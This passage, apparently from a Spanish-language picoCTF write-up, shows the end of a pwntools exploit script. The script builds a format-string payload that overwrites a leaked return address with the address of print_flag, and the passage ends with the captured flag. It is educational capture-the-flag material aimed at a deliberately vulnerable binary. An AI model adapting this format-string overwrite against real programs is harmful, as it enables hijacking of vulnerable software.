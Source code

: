 ```python
    exe.address = base_binario # Indicamos a pwntools cual es la dirección del binario (esto sirve para poder usar la función symbols aunque haya PIE)
    valor = {leaked_return_address: exe.symbols.print_flag} # Diccionario que contiene DIRECCIÓN VARIABLE A MODIFICAR: NUEVO VALOR
    payload = fmtstr_payload(offset_input, valor, write_size='byte')
    r.sendline(payload)
    info(f'Longitud Payload: {len(payload)}')
    r.sendline('exit')  
    r.interactive()


if __name__ == "__main__":
    main()
```

> Después de mandar el payload hay que mandar al programa la palabra `exit` por texto para que salga del bucle y así hacer que se termine la función.

```c
Congrats! Here is your flag: picoctf{SECRETO}
```

Tenemos la Flag!
